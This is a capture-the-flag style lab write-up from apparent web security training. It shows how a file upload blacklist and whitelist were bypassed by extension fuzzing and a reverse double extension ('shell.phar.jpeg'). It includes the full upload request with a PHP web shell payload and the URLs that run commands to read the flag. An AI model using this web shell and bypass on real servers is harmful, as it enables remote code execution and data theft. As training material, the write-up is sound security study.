## Exercises

### Question 1 — The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read "/flag.txt"

Uploaded the profile cat image as usual to get a baseline request.



Located the `POST /upload.php` request in Burp's HTTP history and sent it to both **Repeater** and **Intruder**.



#### Fuzzing for the Final-Extension Whitelist

Set up the same extension fuzzing attack as in the previous blacklist section — payload position on the extension in `filename="shell§.php§"`, SecLists web-extensions wordlist loaded, URL-encoding unticked — to test which extensions pass the server's end-of-filename check.







Ran the attack. `.php`, `.php2` through `.php7`, and `.phps` all returned **Extension not allowed**, while all the other extensions returned **Only images are allowed**. `.phar` and `.phtml` were not blocked by the former check and land in the latter category.



Hypothesis: since `.phar` and `.phtml` pass the end-of-filename check, one of them might also be usable to defeat the whitelist (which likely only accepts image extensions) via a double-extension or reverse double-extension trick.

#### Testing Double Extension

In Repeater, tried the **double extension** approach first — a whitelisted image extension followed by the PHP-executing one — using `shell.jpeg.phar`:

```http
------geckoformboundary929f3013344401c1d9e4261d88f9545d
Content-Disposition: form-data; name="uploadFile"; filename="shell.jpeg.phar"
Content-Type: image/jpeg

<?php system($_REQUEST["cmd"]); ?>
------geckoformboundary929f3013344401c1d9e4261d88f9545d--
```



This returned **Only images are allowed**, rather than a successful upload.



Ruled out: the application's whitelist regex appears properly anchored to the end of the filename, since `shell.jpeg.phar` — which doesn't end in an image extension — was correctly rejected rather than accepted on the presence of `.jpeg` alone.

#### Testing Reverse Double Extension

Switched to the **reverse double extension** approach instead — a PHP-executing extension followed by the whitelisted image extension — using `shell.phar.jpeg`, testing whether the web server's own handler configuration (separate from the application's whitelist) might still execute it:

```http
------geckoformboundary929f3013344401c1d9e4261d88f9545d
Content-Disposition: form-data; name="uploadFile"; filename="shell.phar.jpeg"
Content-Type: image/jpeg

<?php system($_REQUEST["cmd"]); ?>
------geckoformboundary929f3013344401c1d9e4261d88f9545d--
```


The upload succeeded this time, returning **File successfully uploaded**.



Visited the uploaded file with a test command to confirm whether the server-side executed:

```txt
http://154.57.164.64:31834/profile_images/shell.phar.jpeg?cmd=id
```



Confirmed: `shell.phar.jpeg` passes the application's correctly anchored whitelist (since it ends in `.jpeg`), while the server's handler configuration still executes it as PHP due to the `.phar` substring earlier in the filename — the same reverse double extension misconfiguration covered in the previous section. Read the flag with the same shell via `?cmd=cat+/flag.txt`.



**Answer:** `—REDACTED—`